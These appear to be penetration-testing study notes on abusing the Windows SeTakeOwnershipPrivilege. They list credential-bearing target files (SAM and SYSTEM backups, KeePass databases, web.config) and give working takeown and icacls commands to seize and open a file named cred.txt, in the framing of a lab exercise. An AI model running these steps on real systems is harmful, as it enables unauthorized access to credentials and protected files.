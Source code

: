 
[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns `[WRITE_OWNER`] rights over an object, meaning the user can change the owner within the object's security descriptor.
admins have this by default, service accounts may have this 
#### Impact:
- take ownership of any secureable object (files, folders, registry, AD objects)
- Read sensitive files that our current user is not allowed to.
- #### exploitation Requirements
    1. You hold **`SeTakeOwnershipPrivilege`** on the machine that _enforces the ACL_ and hosts the file that's being shared.
    2. If you’re accessing `\\fileserver\share\secret.txt` and the **fileserver** enforces the ACL.
- #### exploitation steps
- use `takeown` to take ownership of the file (now you can edit the ACL)
- use `icalcs`to  grant all rights (read/write/execute/full control)
---
#### interesting files:
```shell-session
config files, unattend.xml, dpapi, docs, text files with passwords
c:\inetpub\wwwwroot\web.config
`.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts, other configuration files, virtual hard drive files...more
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\system.sav
```

We may also come across  that we can target to extract sensitive information from to elevate our privileges and further our access.

---
#### example scenario
if privilege is there but disabled
`script to enable priv`
https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1

1. `checking Acl on target file`
```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

2. `taking ownership of file, change owner to self`
```powershell-session
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

3. `change acl rights to full control (F)`
```powershell-session
> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

#### cleanup
After performing these changes, we would want to make every effort to revert the permissions/file ownership. If we cannot for some reason, we should alert our client and carefully document the modifications in an appendix of our report deliverable. 



# extra Read
(https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights)
